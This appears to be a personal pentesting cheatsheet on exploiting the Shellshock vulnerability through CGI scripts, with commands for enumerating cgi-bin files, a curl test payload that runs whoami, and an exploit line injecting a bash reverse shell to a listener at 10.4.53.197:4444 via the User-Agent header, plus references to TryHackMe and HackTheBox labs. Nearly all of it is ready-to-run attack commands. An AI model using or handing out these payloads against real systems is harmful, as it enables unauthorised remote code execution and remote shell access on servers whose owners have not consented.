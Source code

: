 ```yaml
---
title: Cheatsheet - Shellshock 
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/shell-shock]
img_path: /Cheatsheet/Web/Shellshock via cgi-bin/images
---
```



# Enumerate CGI files
```
ffuf -u http://<IP>/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php,.php3,.exe,.bat,.dll,.vts,.cfg'
```


# Test
```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<MACHINE-IP>/cgi-bin/test.cgi
```

# Exploit
- Obtain shell
	```
	curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1' http://10.10.234.83/cgi-bin/test.cgi

	#Burp:
	User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.4.53.197/4444 0>&1
	```

# Some Example
- [TryHackMe 0day](https://youtu.be/TS_yfDqr_3s?t=1052)
- HackTheBox Shocker - Initial Foothold via ShellShock


